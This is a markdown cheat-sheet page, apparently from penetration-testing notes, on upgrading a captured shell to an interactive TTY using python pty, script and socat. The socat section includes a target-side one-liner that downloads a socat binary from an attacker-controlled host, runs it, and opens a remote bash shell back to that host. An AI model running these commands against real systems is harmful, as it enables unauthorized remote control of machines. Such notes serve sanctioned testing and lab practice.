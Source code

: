 ```yaml
---
title: "Upgrade Shell"
date: 2024-6-27
tags: ["shell", "python", "bash", "sh", "tty"]
---
```


---
### Upgrade Shell

#### Check installed binaries

<div>

```bash
which sh
```

```bash
which bash
```

```bash
which python3
```

```bash
which python
```

</div>

{{< tab set1 tab1 active >}}python{{< /tab >}}
{{< tab set1 tab2 >}}socat{{< /tab >}}
{{< tab set1 tab3 >}}script{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
# Ctrl-Z to send the process to background, then
stty raw -echo; fg
```

```bash
# After fg, press enter again, then
export TERM=xterm-256color
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```bash
# Start a local http server
python3 -m http.server 80
```

```bash
# In our local Linux machine
socat file:`tty`,raw,echo=0 tcp-listen:1337
```

```bash
# In target machine
wget -q http://10.10.14.10/socat -O /tmp/socat && chmod +x /tmp/socat && /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.10:1337
```

```bash
# In our local Linux machine
export TERM=xterm-256color
```

</div>

<small>*Ref: [Download socat](https://github.com/3ndG4me/socat)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

<div>

```bash
script -qc /bin/bash /dev/null
```

</div>

{{< /tabcontent >}}

<br>